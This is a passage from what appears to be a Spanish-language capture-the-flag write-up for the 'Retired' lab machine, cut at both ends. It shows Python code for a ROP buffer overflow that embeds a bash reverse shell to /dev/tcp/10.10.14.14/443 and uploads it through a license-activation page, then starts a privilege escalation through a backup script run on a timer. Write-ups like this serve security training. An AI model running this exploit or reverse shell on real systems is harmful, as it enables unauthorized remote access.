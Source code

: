 ```.data = bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'``` Esto se hace tambien con los registros (rdi y rsi)
mov_rdi_rsi = pack("<q",(libc_base + 0x000603b2)) #  ropper -f libc-2.31.so --search "mov [rdi], rsi; ret"
payload = b'A' * 520

# Mete en writable de 8 en 8 bytes el comando
# ROP -> rdi=writable  rsi=cmd   mov [rdi <- rsi]
for i in range(0, len(cmd), 8):
    payload += pop_rdi
    payload += pack("<q",(writable + i))
    payload += pop_rsi
    payload += cmd[i:i+8].ljust(8, b"\x00")  # [0:8] [8:16] [16:24]...
    payload += mov_rdi_rsi

# system() <- rdi
payload += pop_rdi
payload += pack("<q",writable)
payload += system
with open("file.key", "wb") as f:
    f.write(payload)

file = {'licensefile':("file.key", open("file.key","rb"), 'application/x-iwork-keynote-sffkey')}
url = "http://10.10.11.154/activate_license.php"
req = requests.post(url, files=file)
```
Ya con esto si estamos en escucha por netcat accedemos al binario.

-------------------
# Part 6: Escalada de privilegios: www-data -> dev

Despues de un reconocimiento del sistema, encuentro que:
```console
www-data@retired:/tmp$ systemctl list-timers | head -n 4
# Se ejecuta cada minuto website_backup.timer website_backup.service
# /etc/systemd/system/website_backup.service
[Unit]
Description=Backup and rotate website
[Service]
User=dev
Group=www-data
ExecStart=/usr/bin/webbackup
[Install]
WantedBy=multi-user.target
```
El usaurio "dev" ejecuta cada minuto el script  /usr/bin/webbackup:
Renombrando variables este script es:
```
#!/bin/bash
cd /var/www/
/usr/bin/rm -f /var/www/fecha-html.zip   # Borra /var/www/fecha-html.zip 
/usr/bin/zip --recurse-paths /var/www/fecha-html.zip /var/www/html # Comprime /var/www/html en /var/www/fecha-html.zip
KEEP=10
/usr/bin/find /var/www/ -maxdepth 1 -name '*.zip' -print0 | sort --zero-terminated --numeric-sort --reverse \
    | while IFS= read -r -d '' backup; do
        if [ "$KEEP" -le 0 ]; then
            /usr/bin/rm --force -- "$backup"
        fi
        KEEP="$((KEEP-1))"
    done
```
Lo que nos interesa es la parte de que hace comprime todo **/var/www/html** en  **/var/www/fecha-html.zip**. Cuando tenemos copia/compresion de archivos